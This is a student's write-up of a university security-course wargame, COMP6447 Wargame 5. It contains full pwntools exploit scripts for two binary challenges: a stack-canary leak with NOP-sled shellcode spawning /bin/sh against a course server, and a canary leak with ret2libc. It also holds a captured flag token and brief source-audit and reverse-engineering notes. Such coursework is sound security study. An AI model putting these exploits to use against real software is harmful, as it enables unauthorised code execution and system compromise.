 # COMP6447 Wargame 5
Written by WENG XINN CHOW (z5346077) on 10.07.2022

shellcrack
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNS1zaGVsbGNyYWNrIiwiaXAiOiIxMDMuMjE2LjE5MC4zNyIsInNlc3Npb24iOiJmYWM2YWI1YS1hNDBjLTRmZGMtODc5ZC01Mjk0ZmZlMzRiNTIifQ.k4teRFdTzvMI9X68l3Wsx84MV5TN7ij09a5wCE9U6Ms}

General overview of problems faced
-------------------------------------
1. Had to research ```fread()``` vulnerability. From the binary, we knew that it can read up to 16 bytes. 
2. Thus, I entered a 16-byte input with ```\n``` included. There was no  null terminator in the input, therefore, the canary on the stack was leaked (printed by ```printf```) as there was no null terminator. 
3. Then, we need to store the leaked canary and buffer address. 
4. Had to find the offset to the canary (48) by using ```gdb```. 
5. Had to figure out the offset to the return address from the canary address by using ```cyclic```.
6. The last thing to do is to send a payload, that contains a NOPsled + shellcode (48 bytes), the leaked canary, followed by enough bytes to the return address, then the stored buffer address. 

Script/Command used
------------------
```
from pwn import * 

# p = process("./shellcrack")
host = "comp6447.wtf"
port = 17840
p = remote(host, port)

# Makes fread() reads  16 bytes without a null terminator
p.recvline()
payload = b'A' * 15 + b'\n'
p.send(payload)

# Leak and store the canary 
# p.recvuntil(b'\n')[:-1]
# canary = p.recvuntil(b'\n')[:-1]
p.recvline()
canary = p.recvline()
canary = canary[:8]
p.recvuntil(b'[')
buffer_addr = p.recvuntil(b']')[:-1]
print(buffer_addr)
buffer_addr = int(buffer_addr, 0)

# Shell code 
shellcode = asm(
    """
    push 0x0068732f 
    push 0x6e69622f 
    mov ebx, esp
    mov eax, SYS_execve
    xor ecx, ecx 
    xor edx, edx 
    int 0x80 
    """
)

payload = b'\x90' * (48 - len(shellcode))
payload += shellcode
payload += canary 
# Use cyclic to find the offset to the return address
# payload += cyclic(1000)
offset = cyclic_find(0x61616165)
payload += b'A' * offset
payload += p32(buffer_addr)
# gdb.attach(p)

p.sendline(payload)

p.interactive()
```
stack-dump2
===========================
General overview of problems faced
-------------------------------------
1. Had to find canary address. From ```gdb```, use ```canary``` to find the canary and its address. Since the canary and its address is randomised everytime we run the  program, we have to find the offset of the canary address from the given stack pointer, which is 105. 
2. By sending the canary address, the canary is leaked from the dump memory. 
3. Since the stack is non-executable, the previous approach used in stack-dump is not applicable in this case. 
4. I am not sure what I did wrong but I wa s guessing we should use ```ret2libc``` approach.
5. By printing the memory map, I was able to find the start address of ```libc```. 
6. I was able to find the ```/bin/sh``` address in ```libc``` but the main problem is to find the ```libc``` addresses of of ```system()``` and ```exit()```. I tried with  ```gdb``` but apparently the addresses changes in every run. 
7. The final payload should include the offset of buffer to the canary (96),  the canary, followed by the address of system call, the return address of system call, then the address of the command ```/bin/sh```. 

Script/Command used
------------------
```
from pwn import *

p = process("./stack-dump2")

p.recvuntil(b'pointer ')
pointer = p.recvuntil(b'\n')[:-1]
canary_addr = int(pointer, 0) + 105
canary_addr = p32(canary_addr)
canary_addr += b'\n'
# print(canary_addr)

p.recvlines(4)

p.sendline(b'a')
p.sendline(b'5')
p.sendline(canary_addr)

p.recvlines(14)

p.sendline(b'b')
canary = p.recvline()
canary = canary[22:26]

p.recvlines(4)

p.sendline(b'c')
p.recvlines(4)

start_addr = p.recvuntil(b'-')[:-1]
start_addr = int(start_addr, 16)
system_addr = start_addr - 0x152af 
system_addr = p32(system_addr)
binsh_addr = start_addr + 0x1bd0f5
binsh_addr = p32(binsh_addr)

p.sendline(b'a')

# canary_offset = canary_addr -  start of buffer
canary_offset = 96
size  = canary_offset + len(canary) + len(system_addr)  + len(binsh_addr) + 1
p.sendline(str(size).encode('UTF-8'))

payload = b'A' * canary_offset
payload += canary
payload += system_addr
payload += binsh_addr
payload += b'\n'

p.sendline(payload)

p.interactive()
```
src challenge
=================
General overview of problems faced
--------------------------------------
106: Potential buffer overflows when length of the buffer < MAX_LEN.

169: Casting a signed int to an unsigned int, this could be a problem when the value in level is negative. 

re challenge
=============
General overview of problems faced
-------------------------------------
1. Had to study ```sars``` and how it is related to division of power of 2. 
2. Needed to figure the changes to each register to keep track of the operations. 
```C
# include <math.h>

int re_this(int a, int b){
    return (
        (a + b) - (715827883 - ((a + b) * 715827883) / pow(2, 31)) * 3
    );
}
``

